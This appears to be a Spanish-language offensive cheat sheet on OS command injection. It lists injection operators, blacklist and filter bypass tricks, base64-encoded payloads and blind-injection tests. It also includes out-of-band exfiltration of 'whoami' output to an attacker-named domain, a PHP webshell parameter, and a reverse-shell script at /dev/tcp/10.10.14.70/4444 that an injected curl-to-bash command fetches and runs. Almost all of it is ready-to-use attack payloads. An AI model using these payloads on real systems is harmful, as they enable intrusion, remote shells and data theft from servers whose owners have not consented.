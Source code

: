 siempre que se haga una consulta sobre un item a un backend contastar si es posible una injección de comando aparte de una sqli, 
algunos backends corren código para hacer querys sobre aplicaciones légacy ;)


Semicolon 	; 	%3b 	Both

New Line 	 \n 	%0a 	Both

Background 	& 	%26 	Both (second output generally shown first)

Pipe 	      | 	%7c 	Both (only second output is shown)

AND 	     && 	%26%26 	Both (only if first succeeds)

OR 	       || 	%7c%7c 	Second (only if first fails)

Sub-Shell  `` 	%60%60 	Both (Linux-only)

Sub-Shell  $() 	%24%28%29 	Both (Linux-only)

podemos luego de encontrar el conector entre comandos, si hay algún filtro posterior utilizar diferentes secuencias:


${IFS} inserta un espacio y una tabulación y luego el comando


{ls,-la} agrega comandos como argumentos y agregando espacios en los mismos

para bypassear blacklisted characters se puede utilizar una extracción del caracter del index de una variable de entorno:


${PATH:0:1} (en este caso estaríamos extrayendo el caracter del index 0 de la variable PATH que sería "/"


$env:HOMEPATH[0] mismo ejemplo en windows

podemos concatenar estas técnicas, ej:


127.0.0.1%0a{ls,${PATH:0:1}home}

SQL Injection 	' , ; -- /* */


Command Injection 	; &&


LDAP Injection 	* ( ) & |


XPath Injection 	' or and not substring concat count


OS Command Injection 	; & |


Code Injection 	' ; -- /* */ $() ${} #{} %{} ^


Directory Traversal/File Path Traversal 	../ ..\\ %00


Object Injection 	; & |


XQuery Injection 	' ; -- /* */


Shellcode Injection 	\x \u %u %n


Header Injection 	\n \r\n \t %0d %0a %09



### bypass command blacklisted

podemos agregar caracteres que no son tomados en cuenta en linux y windows como las comillas simples y dobles entre la morfologia del comando

who'am'i

who"am"i

##### Linux only:
who$@ami

w\ho\am\i

##### Windows:
 who^ami

podemos encontrarnos otras medidas como firewalls que nos bloqueen los comandos, con lo cual podemos utilizar diferentes técnicas de bypass:
Case manipulation:

WhOaMi 

Para las terminales case-sensitive como la terminal de linux, podemos utilizar comandos como:

  $(tr "[A-Z]"%09"[a-z]"<<<"WhOaMi")

  
o aplicando un reversing:

##### Linux:

  $(rev<<<'imaohw')

##### Windows:
  iex "$('imaohw'[-1..-20] -join '')"

#### Encodear un comando:

ejemplo de comando pasado a base64:

    echo -n 'cat /etc/passwd | grep 33' | base64

resultado: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

    payload: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)


### Blind command injection
Podemos probar blind command injections utilizando comandos que incluyan un temporizador:

parametro= x||ping+-c+10+127.0.0.1||

Redirecting Output:
Podemos también crear archivos internos con la información de los comandos, de esta manera podremos luego visitar el archivo
creado y consultar el resultado:
parametro = || whoami > /var/www/static/whoami.txt ||

Out-of-band exfiltration:
x || nslockup 'whoami'.servidor-del-atacante.com ||
Nos llegara una request a un subdominio con los datos del comando ejecutado.


################## Code injection en un parametro php:
podemos crear una webshell en un parámetro php que ejecuta código de la siguiente manera:

        parameter = ${system($_GET[cmd])}&cmd=


### Obteniendo una shell:



##### crear la shell
        echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

##### iniciar un servidor python y un netcat

##### Llamar a la páginacon curl:

##### inyectar código:
        test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;

##### Obtener una mejor shell:
        script /dev/null -c bash

